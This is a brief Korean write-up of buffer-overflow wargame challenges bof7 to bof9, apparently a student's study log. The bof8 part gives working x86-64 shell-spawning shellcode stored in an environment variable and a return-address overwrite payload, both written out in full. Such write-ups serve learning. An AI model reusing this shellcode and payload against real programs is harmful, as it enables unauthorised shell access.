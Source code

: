 ### bof7

- bof7은 나오는 대로 풀어보았다

![image-bof7](캡처1.PNG)

- 버퍼의 크기에 따라서 주소가 달라지므로 그에 맞는 주소를 찾아서 그 주소로 불러오는게 핵심!

### bof8

![image-bof8](캡처2.PNG)

- bof8은 buffer 사이즈가 정말 작다! 작다는 것은 버퍼에 쉘코드를 입력 못한다는 것 

- 그렇다면 getenv을 통해 shellcode를 불러오는 건데 전역변수로 설정되있는 shellcode에 값을 넣어주는 작업을 먼저 하고 그 다음에 그 전역변수의 주소를 불러오면 가능하다!

- 전역변수에 값을 넣는 함수는 export SHELLCODE=`python -c "print '\x90'*10+'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'"`

- 이제 불러올 명령어는 (python -c "print 'x'*24+'\x24\xe8\xff\xff\xff\x7f'";cat) | ./bof8 가 된다!

일단 여기까지 풀었다는 증거!

![image-증거](캡처4.PNG)

### bof9

![image-bof9](캡처3.PNG)

- 아니... 이게 무슨일이야... 코드가 다 주석이다 이것도 풀 수 있는 것인가.. 풀 수 있네 설명이 써있다

- 이제 친척들이 부른다... 죄송합니다 찬솔님... 여기까지가 끝인가 봅니다.. ㅠㅠ